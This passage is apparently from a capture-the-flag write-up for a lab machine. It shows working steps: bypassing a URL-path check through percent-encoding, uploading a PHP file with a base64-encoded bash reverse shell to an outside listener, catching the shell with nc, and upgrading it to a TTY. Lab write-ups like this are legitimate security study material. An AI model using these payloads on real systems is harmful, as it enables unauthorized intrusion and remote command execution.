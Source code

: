 #### 6.1. File upload

a. Direct access (bypass the URL-path restriction)
```
# curl "http://127.0.0.1:60080/%61%64%64%6f%6e%73/ots-man-addon.php" && echo
```
Note: `ots-man-addon.php` has `if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };`


b. Successful upload
```
# echo '<?php ' > /tmp/back.php
# echo -n "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.11/9191 0>&1'" \
| base64 | tr -d '\n' | php -R 'echo "exec(base64_decode(\"".$argn."\"));";' >> /tmp/back.php

# curl -F addon=@/tmp/back.php \
"http://127.0.0.1:60080/%61%64%64%6f%6e%73/ots-man-addon.php?x=/addon-upload.php" && echo
File uploaded successfull.y
```


#### 6.2. Shell
```
# http http://127.0.0.1:60080/addons/back.php
# nc -nlvp 9191
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9191
Ncat: Listening on 0.0.0.0:9191
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:45888.
bash: cannot set terminal process group (1346): Inappropriate ioctl for device
bash: no job control in this shell
www-admin-data@onetwoseven:/var/www/html-admin/addons$ id
id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
```


#### 6.3. Shell (TTY setup)
```
www-admin-data@onetwoseven:/var/www/html-admin/addons$ python -c 'import pty;pty.spawn("/bin/bash")'
<dons$ python -c 'import pty;pty.spawn("/bin/bash")'
www-admin-data@onetwoseven:/var/www/html-admin/addons$ ^Z
[2]+  Stopped                 nc -nlvp 9191
# stty raw -echo
# fg
export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 512 columns 256; reset
```
